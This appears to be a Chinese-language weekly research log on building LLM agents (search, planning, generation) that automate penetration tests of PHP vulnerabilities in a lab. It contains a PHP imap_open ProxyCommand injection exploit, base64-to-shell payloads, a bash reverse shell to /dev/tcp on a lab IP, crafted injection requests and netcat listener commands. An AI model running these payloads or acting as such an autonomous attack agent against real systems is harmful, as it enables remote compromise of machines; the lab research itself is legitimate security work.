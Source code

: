 # 250702

这周主要在针对php类漏洞进行测试，目标是获得执行reverse shell，获得目标靶机终端的控制权。

## 实验部分

比较官方的cve攻略链接里可能只有比较简单的example，但是我觉得应该至少攻击要执行到获取到目标靶机shell端的控制权的程度

![示意图](./image/250702/1751465457751.png)

![示意图](./image/250702/1751465042166.png)

## Search Agent

- 工具类的参数整理效果还行: `nc -nvlp {port}

  ```json
  {
  "tool_name": "nc (Netcat)",
  "tool_description": "A versatile networking utility used for reading from and writing to network connections using TCP or UDP. Commonly used for setting up reverse shells or listening on ports.",
  "tool_usage": "nc -lvnp {port}",
  "comment": "# -l : Listen mode, used to wait for an incoming connection\n# -v : Verbose output (optional)\n# -n : Numeric-only IP addresses, no DNS\n# -p 4444 : Port number to listen on (can be changed by replacing 4444 with your desired port)\n\n# Example: Change the listening port to 1234\nnc -lvnp 1234"
  }
  ```
- 脚本类的参数整理效果很不行，但是送到 `Generate Agent`那边推理过后可能最后能生成一个正确的脚本，效果不稳定

  ![示意图](./image/250702/1751465415250.png)

  ```json
  {
    "tool_name": "imap_open exploit script",
    "tool_description": "A proof-of-concept PHP script that exploits the imap_open function to execute arbitrary shell commands even when functions like exec are disabled, by injecting a malicious mailbox string with ProxyCommand.",
    "tool_usage": "<?php\n\n//{base64-encoded payload}",
    "comment": "Example payload: echo '123456789'>/tmp/test0001 encoded as: ZWNobyAnMTIzNDU2Nzg5Jz4vdG1wL3Rlc3QwMDAxCg==\n\n$server = \"x -oProxyCommand=echo\\tZWNobyAnMTIzNDU2Nzg5Jz4vdG1wL3Rlc3QwMDAxCg==|base64\\t-d|sh\";\n\n
  // Use imap_open to trigger the payload via ProxyCommand injection\nimap_open('{'.$server.':143/imap}INBOX', '', '') or die(\"\\n\\nError: \".imap_last_error());"
  }
  ```

## Planning Agent

启用搜索的时机还要再规划一下

```html
PTT examples

4. reverse shell
  4.1 crafting a reverse shell request
    4.1.1 base64 encode(completed)
        echo 'echo "/bin/bash -i >& /dev/tcp/192.168.137.33/4444 0>&1" > /tmp/123' | base64
    4.1.2 modify request(completed)
        hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
  4.2 crafting a request to trigger the reverse shell
    4.2.1 base64 encode
  4.2 reverse shell
    4.2.1 local listening(completed)
        nc -lvp 4444
    4.2.1 crafting a request to trigger the reverse shell
        4.2.1.1 base64 encode(completed)
              echo '/bin/bash /tmp/123' | base64
        4.2.1.1 modify request(completed)
              hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=111

```

## 其它

打算把burpsuit的mcp服务接入进来

- 因为网络配置的问题？burpsuit不能及时拦截到目标流量，需要多人工调试一下总结经验先
